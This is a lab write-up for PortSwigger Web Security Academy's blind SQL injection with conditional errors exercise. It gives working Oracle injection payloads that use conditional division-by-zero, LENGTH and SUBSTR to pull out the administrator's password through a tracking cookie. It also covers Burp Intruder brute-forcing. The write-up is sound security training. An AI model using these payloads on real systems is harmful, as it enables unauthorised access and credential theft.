 # Write-up: Blind SQL injection with conditional errors @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with conditional errors* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=Hhpmds8u7A7Wf4TH; session=CjLImZazM0kQSZvcI7rV4kieQhRygEzJ`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

### Find 'normal' and 'error' statements

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), a conditional error example is given: `SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual`

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

---> Now we have a way to distinguish the result of a boolean condition.

### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, I select from it and use the oracle version of limiting the number of output rows:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

---> It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

Just to be on the safe side, confirmed that invalid names in either of the fields result in an invalid query and an `internal server error`.

### Confirm user exists in the database

To confirm that the user exists in the database it is unfortunately not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend the example by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, I test all numbers from 1 to 50 as length, and get this result:

![Length of password](img/length_of_password.png)

--> Password is exactly 20 characters long

### Enumerate the password of the user administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'`

This shows the page, indicating that the first letter is not an `a`. Using Burp Intruder again to brute force all 20 characters.

![Brute force password](img/brute_force_password_query.png)

Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`

![Brute force password, result](img/brute_force_of_password_result.png)

### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

`'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

For the length, the string is shown in this picture:

![Condition in a different location](img/condition_different_location.png)

## Try login

With the credentials obtained I log in and the lab updates to

![Login successful](img/Win.png)
